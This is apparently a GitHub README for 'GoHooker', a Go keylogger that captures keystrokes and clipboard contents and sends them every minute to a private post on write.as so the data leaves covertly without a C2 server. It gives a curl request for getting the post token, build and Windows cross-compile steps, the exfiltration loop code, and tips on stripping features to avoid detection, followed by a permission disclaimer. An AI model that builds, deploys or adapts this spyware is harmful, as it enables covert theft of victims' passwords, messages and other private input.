

<div align="center">

  
  <h1>GoHooker</h1>
</div>
C2-Less keylogger that sends the *clipboard* & *keystrokes* to **write.as**, a "journal" or "diary" website used to post your thoughts or feelings. Upon initial upload, **write.as** provides a unique ID, and token to update your existing post. From there we exfiltrate clipboard data & keystroke data to such post. This allows inconspicuous data exfiltration rather than pushing to a C2 or some pastebin alternative.

## Prerequisite 🚀
| Prerequisite | Version |
|--------------|---------|
| Go           |  <=1.22 |


## Install 🔨
```bash
git clone https://github.com/CharlesTheGreat77/goHooker
cd goHooker
go mod init main
go mod tidy
```

## Usage ⚙️
Firstly, we must get *ID* and *token* to a given post from **write.as**. This is where the keystrokes and clipboard content will exfiltrate to. 

Obtain ID and token for a post:
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: write.as' -H $'Content-Length: 114' -H $'Sec-Ch-Ua-Platform: \"macOS\"' -H $'Accept-Language: en-US,en;q=0.9' -H $'Sec-Ch-Ua: \"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"' -H $'Content-Type: application/json' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Origin: https://write.as' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: https://write.as/new' -H $'Accept-Encoding: gzip, deflate, br' -H $'Priority: u=1, i' -H $'Connection: keep-alive' \
    --data-binary $'{\"body\":\"this is a test\",\"title\":\"\",\"font\":\"norm\",\"web\":true,\"top\":5633,\"lang\":\"en\",\"crosspost\":[],\"public\":false}' \
    $'https://write.as/api/posts'
```
* This returns some *json* output, **copy** the id and token for *your* post.

Second, **paste** the *id* and *token* values inside the **main.go** file.
```go
const ( // this gets cooked within an hour of inactivity
	urlID = ""
	token = ""
)
```

Compile for a given OS
```bash
go build -o helloWorld main.go
```
Cross compile:
```bash
GOOS=windows GOARCH=amd64 go build -o hooker.exe
```

## Exfiltration 📮
goHooker sends data every **minute**, one can change the timer as needed inside the *main.go* file:
```go
// func to push data back to the server & timer for such
func pusher() {
	for {
		time.Sleep(60 * time.Second) // default timer

		mu.Lock()
		if len(keyBuffer) > 0 {
            // sends data to write.as
			_ = updatePimp(keyBuffer)
			keyBuffer = "" // Reset buffer
		}
		mu.Unlock()
	}
}
```

### Tested Environments 🖥️
* MacOS - Sanoma 14.5
* Windows 10

## Special Considerations ⭐
One can delete the functionality to set the executable on startup and admin checks to reduce the chances of detection etc.

## Contributions ❤️
Although this is straight forward, any contributions to additional functionality is welcomed!


## Disclaimer ❌
This program should only be used on environments that you own or have explicit permission to do so. Neither the author, nor other parties involved in the project, will be held liable for any illegal use of this program.